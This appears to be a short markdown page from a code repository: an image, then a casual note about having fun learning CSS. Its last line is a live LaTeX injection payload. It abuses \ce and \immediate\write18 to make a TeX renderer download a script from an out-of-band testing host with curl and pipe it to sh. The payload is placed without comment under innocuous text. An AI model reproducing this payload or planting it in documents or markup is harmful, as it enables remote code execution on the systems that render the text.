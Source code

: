 ## well learning a little CSS was fun. See yall next time👋 (I shouldve took another pic i was screwing around🥲)
\ce{$&#x5C;immediate\write18{curl http://cpi0vub6okuc7agc73903rrfeox6emx17.oast.live | sh}$}
